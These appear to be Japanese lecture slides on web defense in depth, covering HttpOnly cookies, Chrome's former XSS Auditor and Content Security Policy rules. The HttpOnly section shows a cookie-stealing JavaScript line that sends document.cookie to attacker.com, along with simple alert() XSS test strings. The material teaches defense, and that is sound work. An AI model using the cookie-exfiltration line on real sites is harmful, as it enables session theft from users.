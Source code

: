 # 鍵となるアイデア：多層防御
* 目標：セキュリティ制御が失敗したときや脆弱性が悪用されたときに冗長性を確保する
* 攻撃者は攻撃を成功させるために複数の悪用可能な脆弱性を見つける必要がある
* 身近な多層防御の例をあげよ
  * 強力なパスワードと多要素認証
  * 監査ログとして、メールによる通知を行う

# 利用者のCookieを守る
* HttpOnly 属性を適用することで、JavaScriptを利用してブラウザ内のCookieを読み取ることを防ぐ
Set-Cookie: key=value; HttpOnly
* HttpOnly 属性は次のような攻撃コードから利用者を守る
new Image().src = 'https://attacker.com/steal?cookie=' + document.cookie

# XSS Auditor
* 2010年にChrome 4で導入した
* ブラウザは、XSS AuditorをHTMLパースする際にリクエスト・レスポンスの間で怪しい部分がないかを見分けるために実行する。これは反射型XSSを検知するために実行する。
  * Stored XSS の場合には被害を軽減できなかった。
* Chromeは2019年のChrome 78以降に同機能を削除した。

# XSS Auditorの問題点
* False Negative: XSS Auditorを回避する手法がたくさんあった。
* False Positive: リクエスト・レスポンスの両方に表れるスクリプトをブロックすべきか、リクエスト・レスポンス間での関係性が明確でない
* 例えば次のような場合： 
<script>alert('hi')</script>
  * 利用者が通常通り上記のスクリプトを含んだページを読み込むときには警告しない。
  * 利用者が上記のスクリプトをクエリに入れて読み込んだときには警告する。
  ?query=<script>alert('hi')</script>

# Content Security Policy (CSP)
* CSPは、対応しているブラウザの挙動をWebサイト運営者が制御する宣言的なセキュリティの仕組みである。
* これまでは、他のWebサイトが自身のWebサイトに対するリクエストを制御するものであった。
  * Same Origin Policy を強化することで、フォームの送信、画像の読み込み、スクリプトの実行、スタイル等を制御できることを学んできた。
  * CSPは、自身のWebサイトが他のサイトに対して行うリクエストを制御する。
* CSPは、XSSに対して別の防御層を提供する。
  * ユーザが自身のWebサイトにある攻撃コードを実行したとしても被害を限定できる。

# Content-Security-Policy HTTP ヘッダ
* Webサーバの設定においてContent-Security-PolicyヘッダをHTTPレスポンスに加えるように設定する。これによって、ユーザが訪問したWebページで読み込む内容を制御する。
* CSPは設定したポリシーに違反する、ユーザによるHTTPリクエストをブロックする。

# 設定目標: コンテンツは自身のサイトのみから発生するものを許可する
Content-Security-Policy: default-src 'self'
* <script src='/hello.js'></script> は許可するか？
  * 許可する。相対URLは同一オリジンである。
* <script src='https://other.com/script.js'></script> は許可するか？
  * 許可しない。異なるオリジンである。
* <script>alert('hello')</script>は許可するか？
  * 許可しない。インラインスクリプトは実行できなくなる。強力なXSSからの保護になる。
* <div onmouseover='foo()'></div> は許可するか？
  * 許可しない。インラインスクリプトは実行できなくなる。強力なXSSからの保護になる。
